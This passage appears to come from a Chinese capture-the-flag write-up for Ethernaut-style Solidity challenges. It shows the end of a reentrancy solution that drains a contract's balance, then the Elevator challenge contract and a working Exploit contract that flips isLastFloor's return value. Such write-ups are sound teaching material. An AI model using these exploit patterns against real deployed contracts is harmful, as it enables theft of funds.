 首先直接部署合约，然后 `#!js contract.donate.sendTransaction(<exp contract addr>, {value: toWei("0.001")})` 先 donate 0.001 ether，然后调用 exp 函数就可以实现重入攻击提取出目标合约中的所有余额

---

## Elevator

??? question "题目合约"
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    interface Building {
        function isLastFloor(uint) external returns (bool);
    }


    contract Elevator {
        bool public top;
        uint public floor;

        function goTo(uint _floor) public {
            Building building = Building(msg.sender);

            if (! building.isLastFloor(_floor)) {
                floor = _floor;
                top = building.isLastFloor(floor);
            }
        }
    }
    ```

目的是使电梯达到最顶层，即使题目合约的 top 为 true

因为 top 的变化只会在 goTo 里发生变化，并且只有在 isLastFloor 为 false 的时候才会改 top，而且两次调用 isLastFloor 的输入一样

所以只需要让第一次调用 isLastFloor 返回 false，第二次返回 true 就可以了

???+ done "exp"
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    /* code of Elevator */

    contract Exploit {
        Elevator elevator;
        bool top = true;
        constructor(address challenge) public {
            elevator = Elevator(challenge);
        }
        function isLastFloor(uint) public returns (bool) {
            top = !top;  // 调用一次就改一次返回值
            return top;
        }
        function exp() public {
            elevator.goTo(1);
        }
    }
    ```
